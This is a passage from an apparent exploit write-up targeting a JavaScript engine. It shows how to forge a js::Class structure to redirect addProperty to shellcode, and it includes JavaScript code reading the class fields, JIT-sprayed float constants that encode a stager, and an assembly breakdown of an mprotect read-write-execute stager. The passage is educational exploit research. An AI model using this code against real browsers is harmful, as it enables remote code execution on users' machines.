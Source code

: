 ![](group_diagram.png)

We can overwrite the class_ pointer with an address that is chosen by us. At this address we forge the entire `js::Class` structure. As for the fields we can these leak out from the original Class object. Here we just need to make sure that `cOps` is pointing to a table of function pointers that we had written in the memory. In this exploit I will be overwriting the `addProperty` field with the pointer to the shellcode

```js

grp_ptr = read(aa)
jsClass = read_n(grp_ptr,new data("0x30"));

name = jsClass.slice(0,8)
flags = jsClass.slice(8,16)
cOps = jsClass.slice(16,24)
spec = jsClass.slice(24,32)
ext = jsClass.slice(40,48)
oOps = jsClass.slice(56,64)

```

Now lets focus on where we want to direct the control flow to....

### Injecting Shellcode

We will, more or less, be using the same technique as displayed by the author in the above mentioned post. Let's create a function to hold our shellcode...

```js
buf[7].func = function func() {
  const magic = 4.183559446463817e-216;

  const g1 = 1.4501798452584495e-277
  const g2 = 1.4499730218924257e-277
  const g3 = 1.4632559875735264e-277
  const g4 = 1.4364759325952765e-277
  const g5 = 1.450128571490163e-277
  const g6 = 1.4501798485024445e-277
  const g7 = 1.4345589835166586e-277
  const g8 = 1.616527814e-314
}
```

This is a stager shellcode that will `mprotect` a region of memory with read-write-execute permissions. Here is a rough breakdown of the same.

```ruby
# 1.4501798452584495e-277
mov rcx, qword ptr [rcx]
cmp al,al

# 1.4499730218924257e-277
push 0x1000

# 1.4632559875735264e-277
pop rsi
xor rdi,rdi
cmp al,al

# 1.4364759325952765e-277
push 0xfff
pop rdi

# 1.450128571490163e-277
not rdi
nop
```
